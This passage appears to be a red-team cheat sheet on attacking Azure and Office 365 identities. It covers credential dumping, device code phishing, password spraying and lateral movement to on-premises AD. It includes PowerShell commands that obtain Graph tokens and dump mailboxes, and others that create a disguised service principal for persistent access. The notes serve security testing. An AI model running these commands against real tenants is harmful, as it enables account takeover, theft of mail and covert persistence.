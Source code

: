 ### Dumping clear text credentials to accounts in privileged cloud groups
* Credential dumping and lateral movement
* DCsync / NTDTS etc. 
* If MFA is required credentials could potentially be used through a proxy when Conditional Access policies not configured to require MFA from trusted locations 
* Check [MFASweep](https://github.com/dafthack/MFASweep)

## Using a compromised cloud global admin account gain access to on-prem 

* [Death from above](https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d)

## Using a compromised third-party to gain access to cloud identities and data 

* Stealing the certificates used for service principals (see the attack against Mimecast)

## Using phishing attacks to gain access to cloud identities and data 

* [Introducing a new phishing technique for compromising Office 365 accounts](https://o365blog.com/post/phishing/)
* [The art of the device code phish](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)
* The user code is valid only for 15 minutes

```
> Get-AzureToken -Client Graph
> RefreshTo-MSGraphToken -refreshToken $response.refresh_token -domain <DOMAIN> -Device iPhone -Browser Safari
> Dump-OWAMailboxViaMSGraphApi -AccessToken $MSGraphToken.access_token -mailFolder inbox -top 1 -Device iPhone -Browser Safari
```

Uses Microsoft Office client id d3590ed6-52b3-4102-aeff-aad2292ab01c

### Consent grant phishing attack

* todo

## Using password spraying to cloud accounts

* [MSOLSpray](https://github.com/dafthack/MSOLSpray)

## Gaining persistent access to cloud identities and data 

### Creating a new Service Principals to provide long-term API-based access 

```
PS> Get-AzureADServicePrincipal -all $true | Where-Object{$\_.KeyCredentials -ne $null}  
PS> $sp = New-AzADServicePrincipal -DisplayName 'MicrosoftSyncShare'  
PS> New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
```
